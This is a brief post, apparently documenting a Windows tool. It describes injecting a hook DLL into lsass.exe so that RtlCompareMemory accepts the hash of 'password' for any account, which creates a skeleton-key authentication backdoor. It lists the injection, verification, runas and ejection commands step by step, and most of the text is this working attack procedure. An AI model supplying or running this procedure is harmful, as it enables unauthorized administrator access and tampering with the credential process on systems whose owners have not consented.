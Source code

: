For fun and (no) profit : lets hook rtlcomparememory in lsass.exe.
Indeed, at some point, windows will need to compare of a (md4) hash of your provided password with the hash of the password in the sam local db.
So lets hook rtlcomparememory, and if 'password' (or rather the md4 hash) is provided, then lets return "true" !.

NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll

optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .

runas /user:Admin cmd (provide "password" here as password)

NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll

optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .
